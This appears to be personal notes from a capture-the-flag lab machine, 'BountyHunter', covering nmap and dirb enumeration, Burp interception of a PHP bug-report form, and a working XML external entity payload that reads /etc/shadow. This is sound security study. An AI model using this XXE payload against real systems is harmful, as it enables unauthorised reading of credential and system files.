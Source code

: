 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php
  + /resources/
  
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox
  + adjust titles to mimic db.php titles
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>\
		<bugreport>\
		<title>test</title>\
		<cwe>test</cwe>\
		<cvss>test</cvss>\
		<reward>test</reward>\
		</bugreport>\

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>\
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>\
    		<bugreport>\
    		<title>&ent;</title>\
    		<cwe>test</cwe>\
    		<cvss>test</cvss>\
    		<reward>test</reward>\
    		</bugreport>\

Obtain Username: ${UN}
